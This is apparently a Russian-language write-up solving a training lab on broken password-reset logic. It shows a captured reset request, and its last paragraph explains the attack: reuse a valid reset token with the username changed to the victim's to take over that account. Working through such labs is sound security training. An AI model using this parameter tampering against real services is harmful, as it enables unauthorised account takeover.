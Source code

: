 # Password reset broken logic
APPRENTICE

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: wiener:peter

Victim's username: carlos
## Решение
На форме логина перехожу по ссылке "Forgot password?". Ввожу свой email, получаю письмо со ссылкой на сброс пароля.

Перехожу по ссылке на страницу `/forgot-password?temp-forgot-password-token=pgfg9xqcn2komhl4gnnwbjccvfrj91l6`, ввожу новый пароль и его подтверждение. При этом на сервер отправляется следующий запрос:
```
POST /forgot-password?temp-forgot-password-token=jb6za089qmaahcd1w23ckboxdgthkcfx HTTP/2
Host: 0a3b00c5045d944d80e12bce00970067.web-security-academy.net
Cookie: session=2NVHbficsx638F1NF4IMvaCXI9nskUbd
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: https://0a3b00c5045d944d80e12bce00970067.web-security-academy.net
Referer: https://0a3b00c5045d944d80e12bce00970067.web-security-academy.net/forgot-password?temp-forgot-password-token=jb6za089qmaahcd1w23ckboxdgthkcfx
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=dnwfq9duaaqjl4ikxg884meale5ff061&username=wiener&new-password-1=123&new-password-2=123
```
Повторяю вышеописанную процедуру до шага отправки формы нового пароля. Копирую новый токен сброса пароля и подставляю его в качестве значения параметра "temp-forgot-password-token", а значение параметра "username" меняю на "carlos". Отправляю запрос, затем логинюсь как carlos:123. Задание выполнено.
